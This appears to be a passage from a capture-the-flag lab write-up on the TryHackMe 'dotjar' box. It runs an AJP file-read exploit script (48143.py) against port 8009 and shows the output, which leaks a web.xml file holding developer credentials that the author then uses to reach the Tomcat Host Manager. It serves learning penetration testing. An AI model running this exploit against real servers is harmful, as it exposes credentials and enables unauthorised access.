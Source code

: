 Reading through the script it looks like we just give it the target server IP or name:

```text
┌──(root💀kali)-[~/thm/dotjar]
└─# python 48143.py dotjar.thm
Getting resource at ajp13://dotjar.thm:8009/asdf
----------------------------
<SNIP>
  <display-name>VulnNet Entertainment</display-name>
  <description>
     VulnNet Dev Regulations - mandatory
1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:
 
    webdev:Hgj3LA$02D$Fa@21
 
GUI access is disabled for security reasons.
 
4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>
</web-app>
```

The username and password lets us get in to the Host Manager and Server Status areas:

![dotjar-manager](/assets/images/2021-04-28-16-46-34.png)
